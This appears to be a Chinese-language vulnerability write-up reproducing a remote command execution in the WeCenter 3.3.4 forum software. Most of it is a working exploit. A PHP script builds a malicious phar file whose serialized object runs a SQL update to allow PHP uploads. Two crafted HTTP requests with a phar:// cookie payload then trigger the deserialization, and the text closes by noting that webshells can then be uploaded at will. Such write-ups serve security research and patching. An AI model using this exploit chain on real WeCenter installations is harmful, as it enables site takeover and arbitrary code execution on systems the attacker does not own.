


WeCenter 3.3.4 远程命令执行
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型**
处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意
**SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP**
生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie**
前缀每个网站都不一样，修改成自己的即可）。

    GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
    Connection: close
    $wx = array(
        'access_token' => array('openid'=>1),
        'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
    );
    echo json_encode($wx);

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

    GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
    Connection: close

现在，我们就可以随意上传 **webshell** 了。

image
